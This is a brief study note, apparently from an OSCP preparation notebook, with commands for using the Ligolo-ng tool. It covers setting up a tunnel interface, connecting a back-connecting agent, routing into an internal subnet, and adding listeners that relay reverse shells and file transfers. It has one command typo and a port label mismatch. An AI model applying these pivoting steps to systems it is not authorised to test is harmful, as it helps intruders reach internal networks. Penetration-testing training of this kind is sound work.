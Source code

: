 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/6-ligolo-ng/"}
---
```


-----------
### Set up proxy:
1. Set up interface:
```
sudo ip tuntap add user crabfeather mode tun ligolo
sudo ip link set ligolo up
```
2. Run the proxy:
```
./linproxy -selfcert -laddr 0.0.0.0:443
```
3. Connect agent:
```
./linagent -connect 192.168.45.X:443 -ignore-cert
```
4. Add route:
```
sudo ip route add X.X.X.X/24 dev ligolo
```
5. Enter session in proxy and run start!!!

--------
### Catch shells and transfer files:
1. List listeners:
```
lister_list
```
2. Add shell catcher to 4444:
```
listener_add --addr 0.0.0.0:5555 --to 127.0.0.1:4444
```
3. Add file transferer:
```
listener_add --addr 0.0.0.0:6666 --to 127.0.0.1:80
```

